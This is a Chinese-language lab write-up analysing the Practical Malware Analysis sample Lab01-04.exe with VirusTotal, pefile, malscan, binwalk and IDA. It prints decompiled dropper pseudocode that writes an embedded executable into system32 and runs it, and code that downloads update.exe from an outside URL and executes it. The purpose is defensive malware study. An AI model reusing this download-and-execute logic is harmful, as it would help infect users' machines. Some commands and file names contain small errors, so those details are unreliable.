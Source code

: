 # lab1-4

## QUESTION 1

> Upload the Lab01-04.exe file to [http://www.VirusTotal.com/](http://www.virustotal.com). Does it match any existing antivirus definitions?

文件的 sha256 哈希值：

```bash
$ sha256sum Lab01-04.exe
0fa1498340fca6c562cfa389ad3e93395f44c72fd128d7ba08579a69aaf3b126  Lab01-04.exe
```

因此上传的 `url` 为：[https://www.virustotal.com/#/file/0fa1498340fca6c562cfa389ad3e93395f44c72fd128d7ba08579a69aaf3b126/detection](https://www.virustotal.com/#/file/0fa1498340fca6c562cfa389ad3e93395f44c72fd128d7ba08579a69aaf3b126/detection)

可以看到这同样是一个被 53 个引擎检测出来的木马。

## QUESTION 2

> Are there any indications that this file is packed or obfuscated? If so, what are these indicators? If the file is packed, unpack it if possible.

使用 `blackarch` 的工具 `packerid`：

```bash
$ packerid Lab01-04.exe 
['Microsoft Visual C++ v5.0/v6.0 (MFC)']
```

可见这个文件并没有加壳。

## QUESTION 3

> When was this program compiled?

PE 文件的文件结构可以参考[微软的官方文档](https://docs.microsoft.com/en-us/windows/desktop/debug/pe-format)。

可以找到在对象文件的的最开始，存在一个标准文件头，其中有一个 `TimeDateStamp` 域，指示了文件创建时的时间戳，可以使用以下的 python 脚本读取它：

```python
#！/usr/bin/env python3
from datetime import datetime
import pefile

pe = pefile.PE("/tmp/BinaryCollection/Chapter_1L/Lab01-04.exe")
print(datetime.fromtimestamp(pe.FILE_HEADER.TimeDateStamp))
```

```bash
$ python labb01-04.exe
2019-08-31 06:26:59
```

## QUESTION 4

> Do any imports hint at this program’s functionality? If so, which imports are they and what do they tell you?

使用 `blackarch` 的工具 `malscan`：

```bash
$ malscan Lab01-04.exe
...
[Imports Overview]

KERNEL32.dll
        0x402010 GetProcAddress
        0x402014 LoadLibraryA
        0x402018 WinExec
        0x40201c WriteFile
        0x402020 CreateFileA
        0x402024 SizeofResource
        0x402028 CreateRemoteThread
        0x40202c FindResourceA
        0x402030 GetModuleHandleA
        0x402034 GetWindowsDirectoryA
        0x402038 MoveFileA
        0x40203c GetTempPathA
        0x402040 GetCurrentProcess
        0x402044 OpenProcess
        0x402048 CloseHandle
        0x40204c LoadResource

ADVAPI32.dll
        0x402000 OpenProcessToken
        0x402004 LookupPrivilegeValueA
        0x402008 AdjustTokenPrivileges

MSVCRT.dll
        0x402054 _snprintf
        0x402058 _exit
        0x40205c _XcptFilter
        0x402060 exit
        0x402064 __p___initenv
        0x402068 __getmainargs
        0x40206c _initterm
        0x402070 __setusermatherr
        0x402074 _adjust_fdiv
        0x402078 __p__commode
        0x40207c __p__fmode
        0x402080 __set_app_type
        0x402084 _except_handler3
        0x402088 _controlfp
        0x40208c _stricmp
...
```

可见这个可执行文件导入了，执行命令、复制移动写文件、读取文件资源大小、读取文件树、打开关闭进程等危险函数，猜测这是实现了一个了文件查看器的恶意病毒。

## QUESTION 5

> What host- or network-based indicators could be used to identify this malware on infected machines?

我们用 `ida pro` 打开这个可执行文件，先查看它里面的字符串：

![04.exe.ida.strings](../../../.gitbook/assets/04.exe.ida.strings.png)

我们发现 `\\system32\\wupdmgr.exe` 这样一个字符串，我们查找调用的位置，并查看调用位置的伪代码：

```c
// ...
  GetWindowsDirectoryA(&Buffer, 0x10Eu);
  snprintf(&Dest, 0x10Eu, Format, &Buffer, aSystem32Wupdmg);
  hModule = GetModuleHandleA(0);
  hResInfo = FindResourceA(hModule, Name, Type);
  lpBuffer = LoadResource(hModule, hResInfo);
  nNumberOfBytesToWrite = SizeofResource(hModule, hResInfo);
  hFile = CreateFileA(&Dest, 0x40000000u, 1u, 0, 2u, 0, 0);
  WriteFile(hFile, lpBuffer, nNumberOfBytesToWrite, &NumberOfBytesWritten, 0);
  CloseHandle(hFile);
  return WinExec(&Dest, 0);
}
```

这段代码的大致用处应该是加载一个可执行文件的资源，然后把这个可执行文件资源复制到一个给定的位置（即 `\\system32\\wupdmgr.exe`），然后执行它。这并没有网络相关请求。

于是我们通过 `binwalk` 命令提取出其中的资源：

```bash
$ binwalk --dd=".*" Lab01-04.exe
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             Microsoft executable, portable (PE)
16480         0x4060          Microsoft executable, portable (PE)
```

这条命令将给定文件 `Lab01-04.exe` 中的资源提取到了文件夹 `_Lab01-04.exe.extracted` 中。

```bash
$ cd _Lab01-04.exe.etracted/

$ ls
0  4060
```

我们发现提取出了 `0` 和 `4060` 这两个资源，很显然 `0` 即为之前分析的可执行文件，我们再用 `ida pro` 分析其中的资源文件 `4060`：

![04.resources.ida.string](../../../.gitbook/assets/04.resources.ida.string.png)

我们发现了一个 `URL` 地址，并且我们还在导入表中发现了 `URLDownloadToFileA` 这个导入函数，我们再分析调用这个字符串位置的伪代码：

```c
// ...
  GetTempPathA(0x10Eu, &Buffer);
  snprintf(&Dest, 0x10Eu, Format, &Buffer, aWinupExe);
  WinExec(&Dest, 5u);
  GetWindowsDirectoryA(&v7, 0x10Eu);
  snprintf(&CmdLine, 0x10Eu, aSS_0, &v7, aSystem32Wupdmg);
  if ( !URLDownloadToFileA(0, aHttpWwwPractic, &CmdLine, 0, 0) )
    WinExec(&CmdLine, 0);
  return 0;
}
```

这个段伪代码，向 `http://www.practicalmalwareanalysis.com/update.exe`，下载病毒资源文件并且保存到 `\\system32\\wupdmgrd.exe` 这个文件中。

所以需要监测网络中是否与 `http://www.practicalmalwareanalysis.com/update.exe` 建立了连接。

## QUESTION 6

> This file has one resource in the resource section. Use Resource Hacker to examine that resource, and then use it to extract the resource. What can you learn from the resource?

在第五问中已经使用 `binwalk` 提取出来了。
